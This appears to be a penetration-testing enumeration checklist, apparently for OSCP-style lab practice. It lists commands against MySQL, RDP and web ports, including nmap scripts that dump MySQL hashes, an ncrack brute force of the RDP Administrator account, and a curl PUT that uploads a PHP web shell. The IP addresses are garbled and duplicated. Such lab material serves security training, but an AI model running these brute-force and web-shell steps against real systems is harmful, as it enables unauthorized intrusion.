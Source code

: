 - Name:
- Version:

```
mysql --host=10.10.10.8710.10.10.102 -u root -p

nmap -sV -Pn -vv -script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 10.10.10.8710.10.10.102 -p 3306
```

### Port 3339 - Oracle web interface

- Basic info about web service (apache, nginx, IIS)
- Server:
- Scripting language:
- Apache Modules:
- IP-address:
- Domain-name address:

### Port 3389 - Remote desktop

Test logging in to see what OS is running

```
rdesktop -u guest -p guest 10.10.10.8710.10.10.102 -g 94%

# Brute force
ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://10.10.10.8710.10.10.102
```


### Port 80

- Server:
- Scripting language:
- Apache Modules:
- Domain-name address:

INSERTCURLHEADER


- Web application
- Name:
- Version:

```
# Nikto
nikto -h http://10.10.10.8710.10.10.102

# Nikto with squid proxy
nikto -h 10.10.10.8710.10.10.102 -useproxy http://10.10.10.8710.10.10.102:4444

# Get header
curl -i 10.10.10.8710.10.10.102

# Get everything
curl -i -L 10.10.10.8710.10.10.102

# Check if it is possible to upload using put
curl -v -X OPTIONS http://10.10.10.8710.10.10.102/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://10.10.10.8710.10.10.102/test/shell.php

# Check for title and all links
dotdotpwn.pl -m http -h 10.10.10.8710.10.10.102 -M GET -o unix
```
